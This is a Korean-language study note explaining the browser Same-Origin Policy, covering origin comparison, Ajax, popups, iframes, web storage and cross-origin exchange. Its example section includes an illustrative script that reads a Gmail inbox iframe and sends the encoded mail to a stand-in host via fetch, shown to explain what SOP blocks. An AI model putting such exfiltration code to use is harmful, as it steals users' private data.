 # SOP(동일 출처 정책)

Origin A로 부터 로드된 Document A 또는 Script A가 

다른 Origin B로 부터 로드된 리소스와 상호작용할 수 있는 방법을 제한하는 보안 메커니즘입니다.



<hr>

- 현 Document가 어느 Origin으로 부터 로드된 것인지 알아보는 방법

  ```js
  document.location.origin //"https://www.naver.com"
  ```



# Same Origin 

> **동일한 Origin을 갖는지 판단하는 방법**
>
> (스킴 + 호스트 + 포트) 이 세 개의 조합이 같은 경우만 same origin임

> (예)
>
> https://www.naver.com/path/page.html
>
> https://www.naver.com:443/path2/page.html
>
> 위 두 리소스는 origin이 동일함(https의 기본 포트는 443)

 

# SOP가 적용되는 사례

## 1. Ajax

```js
//  https://www.siteA.com가 Origin인 공격자 Document의 script

var oReq = new XMLHttpRequest();
oReq.open("GET", "https://api.dokydoky.com/profile");
...
```

위 API호출로 JSON 응답데이터 {"id": "dokydoky", "nickname": "enjoying"}을 응답받을 수 없다. (READ불가능함)

(이유) 

 **Document의 Origin**과 **JSON의 Origin** 서로 다름.

(정리)

- 일반적인 경우 

  - **다른 Origin으로 요청을 보낸는 것 허용**.
  - 응답이 필요없는 UPDATE, DELETE종류는 요청만으로도 가능(WRITE가능)
  - 단, CSRF공격에 대한 대비를 해야한다.
  - 다른 Origin으로 부터의 응답은 못받음.

  

- Preflight 요청일 경우

  - 다른 Origin으로 요청 불가능

## 2. 팝업

```js
//https://popup.siteA.com이 Origin인 Document A
window.open('https://popup.siteB.com')
```

새로운 팝업창(즉, 새로운 window)에 Document B가 로드된다.(SiteB로 부터)

SiteA로 부터 로드된 Document A는 Document B에 접근할 수 없다.



## 3. iframe

- \<script src=""> \<link rel="stylesheet" href="" > \<img> 등등
- 로딩은 가능함
- 단, 내부 리소스 접근 불가

```html
<!-- https://siteA.com이 Origin인 Document A -->
<iframe src="https://siteB.com">
```

Document A에 embeding된 iframe에 Document B가 로드되긴함.

하지만 Same Origin이 아니므로 A에서 B로 접근 불가능함.(즉, A에서 B의 리소스를 사용할 수 없음)



## 4. 웹데이터베이스

로컬스토리지, 세션스토리지는 Origin마다 하나씩 생성됨.

Same Origin인 Document나 Script에서 접근가능하다.



# 예제 코드 

## 1. iframe

```html
<!--www.siteA.co.kr -->
<iframe id="mail" src="https://mail.google.com/mail/inbox">   
</iframe>

<script>
	document.getElementById("mail").addEventListener("load", function(e){
        mailDate = document.getElementById("mail").contentDocument.body
        encoded = btoa(encodeURIComponent(mailData))
        fetch("https://www.suspicious.com?" + encoded)
    })
</script>
```

1. **SOP가 적용되지 않았을 때**

   - SiteA에서 `<iframe id="mail" src="https://mail.google.com/mail/inbox"> 코드를 통해 

     gmail로 리소스요청을 보낸다. 이때 gmail계정 세션쿠키가 Same site = none;인 상태로 쿠키값이 브라우저에 있다면 세션쿠키값이 SiteA에서 gmail로 호출시 요청헤더에 담겨 전송된다.

   - iframe에 메일정보가 로드됨.
   - 메일정보를 Top-level document에서 다른 해킹서버로 탈취함.


   ​    

2. **SOP 적용**

   - iframe에 메일데이터가 로드되는 것까지 위와 동일함
   - 하지만, iframe내부의 document를 참조하려는 시도를 할 때(.contentDocument) Null값을 리턴함.

   

   ### Cross-Origin간 정말로 데이터 교환이 필요할 때는?

   - window.postMeassage
   - 허용할 Origin (SiteA)를 응답헤더 "Access-Control-Allow-Origin"의 값으로 추가한다.












